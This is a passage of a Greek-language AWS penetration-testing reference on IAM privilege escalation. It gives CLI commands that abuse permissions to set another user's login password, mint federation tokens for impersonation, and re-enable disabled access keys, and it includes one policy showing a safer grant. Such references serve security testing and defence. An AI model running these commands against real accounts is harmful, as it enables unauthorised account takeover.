 **Εκμετάλλευση για Δημιουργία:**
```bash
aws iam create-login-profile --user-name target_user --no-password-reset-required \
--password '<password>'
```
**Εκμετάλλευση για Ενημέρωση:**
```bash
aws iam update-login-profile --user-name target_user --no-password-reset-required \
--password '<password>'
```
**Επίπτωση:** Άμεση ανόδος προνομίων με τη σύνδεση ως "οποιοσδήποτε" χρήστης.

### **`iam:GetFederationToken`**

Με αυτήν την άδεια είναι δυνατή η δημιουργία διαπιστευτήριων για να προσωποποιηθεί οποιοσδήποτε χρήστης:
```bash
aws sts get-federation-token --name <username>
```
Έτσι μπορεί να δοθεί αυτή η άδεια με ασφάλεια χωρίς να δίνεται πρόσβαση στην υποκατάσταση άλλων χρηστών:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "VisualEditor0",
"Effect": "Allow",
"Action": "sts:GetFederationToken",
"Resource": "arn:aws:sts::947247140022:federated-user/${aws:username}"
}
]
}
```
### **`iam:UpdateAccessKey`**

Επιτρέπει την ενεργοποίηση ενός απενεργοποιημένου κλειδιού πρόσβασης, που μπορεί να οδηγήσει σε μη εξουσιοδοτημένη πρόσβαση εάν ο επιτιθέμενος διαθέτει το απενεργοποιημένο κλειδί.

**Εκμετάλλευση:**

{% code overflow="wrap" %}
```bash
aws iam update-access-key --access-key-id <ACCESS_KEY_ID> --status Active --user-name <username>
```
{% endcode %}

### **Επίπτωση:** Άμεση ανόδος προνομίων με την επαναενεργοποίηση κλειδιών πρόσβασης.

### **`iam:CreateServiceSpecificCredential` | `iam:ResetServiceSpecificCredential`**

Επιτρέπει τη δημιουργία ή επαναφορά διαπιστευτηρίων για συγκεκριμένες υπηρεσίες AWS (π.χ., CodeCommit, Amazon Keyspaces), κληρονομώντας τα δικαιώματα του σχετικού χρήστη.

